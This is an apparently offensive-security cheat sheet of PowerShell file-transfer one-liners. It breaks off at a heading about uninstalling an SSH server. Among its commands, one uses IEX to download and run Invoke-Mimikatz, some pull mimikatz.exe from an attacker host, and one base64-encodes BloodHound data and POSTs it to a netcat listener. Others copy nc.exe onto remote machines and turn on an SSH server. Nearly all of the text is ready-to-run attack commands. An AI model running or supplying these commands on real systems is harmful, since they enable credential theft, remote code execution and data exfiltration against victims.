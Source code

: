 # Ultimate File Transfer List

## powershell.exe

### powershell proxy authentication

`$Client = New-Object -TypeName System.Net.WebClient`

`$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials`

`IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`


### Invoke-WebRequest / Invoke-RestMethod

`Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"`

`Invoke-RestMethod "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"`


### Invoke-WebRequest / Invoke-RestMethod POST base64 data

`nc -lvnp 443`

`$Base64String = [System.convert]::ToBase64String((Get-Content -Path 'c:/temp/BloodHound.zip' -Encoding Byte))`
`Invoke-WebRequest -Uri http://10.10.10.10:443 -Method POST -Body $Base64String`

`echo <base64> | base64 -d -w 0 > bloodhound.zip `


### Copy-Item 

`Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session`


### Set-Content 

`Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}`


### SSH-Server via PowerShell

`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'` 

This returns some output, based on which you would then do something like: 

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0` 
`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0` 

To start an SSH-server: 
 `Start-Service sshd` 

 To uninstall the SSH-server/client: 
